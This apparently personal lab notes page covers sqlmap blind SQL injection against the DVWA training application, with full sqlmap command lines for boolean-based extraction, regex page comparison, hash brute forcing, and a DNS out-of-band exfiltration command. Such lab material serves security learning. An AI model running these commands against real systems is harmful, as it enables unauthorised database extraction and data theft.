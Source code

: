 # SQLMap

Search Tag(s): #blind-sql-injection #sqlmap #dvwa

## Boolean-Based

## Time-Based

--time-sec=10

### Enumeration

--first=FIRSTCHAR   First query output word character to retrieve  
--last=LASTCHAR     Last query output word character to retrieve

### Page comparison

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database." --code=200
```

- We can combine the two flags (`--string` and `--not-string`) into one using the `--regexp` flag. We'll take the response `(?!is MISSING from)` to negate the match regex and match `(exists in)` positively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --regexp="User ID ((exists in)|(?\!is MISSING from)) the database." --code=200
```

These are the python regexes that works so far.

```
User ID ((exists in)|(?!is MISSING from)) the database.
User ID (?!is MISSING from)exists in the database.
User ID exists in(?!is MISSING from the database.
User ID (?!is MISSING from)[a-zA-Z ]*the database.
User ID (?!is MISSING from)[a-zA-Z ]+the database.
User ID (?!is MISSING from)[a-zA-Z ]{9} the database.
User ID (?!is MISSING from)[a-zA-Z ]{10}the database.
```

--smart             Perform thorough tests only if positive heuristic(s)
--text-only         Compare pages based only on the textual content
--titles            Compare pages based only on their titles

### Bruteforce

For dumping hashes

```
--charset="1234567890abcdef"
```

```
--charset="1234567890ABCDEF"
```

```
--charset="1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

### Frequency Analysis

Brute force:
These options can be used to run brute force checks

--common-tables     Check existence of common tables

uses `sqlmap/data/txt/common-tables.txt`

--common-columns    Check existence of common columns

uses `sqlmap/data/txt/common-columns.txt`

--common-files      Check existence of common files

uses `sqlmap/data/txt/common-files.txt`

--safe-url=SAFEURL  URL address to visit frequently during testing
--safe-freq=SAFE..  Regular requests between visits to a safe URL


### Speed

Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches

--predict-output    Predict common queries output

uses `sqlmap/data/txt/common-outputs.txt`

--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

### DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```